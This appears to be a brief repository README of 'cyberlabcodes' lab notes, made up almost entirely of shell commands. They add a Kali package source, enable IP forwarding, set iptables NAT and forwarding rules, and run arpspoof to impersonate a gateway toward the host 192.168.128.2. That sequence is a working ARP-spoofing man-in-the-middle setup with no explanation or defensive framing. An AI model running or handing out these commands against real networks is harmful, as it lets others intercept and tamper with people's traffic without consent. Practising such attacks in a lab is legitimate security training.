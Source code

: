 # cyberlabcodes
test
deb http://http.kali.org/kali kali-rolling main contrib non-free

sudo sysctl -w net.ipv4.ip_forward=1

cat /proc/sys/net/ipv4/ip_forward

sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

sudo iptables -A FORWARD -i eth0 -j ACCEPT

sudo arpspoof -i eth0 -t 192.168.128.2 192.168.128.1
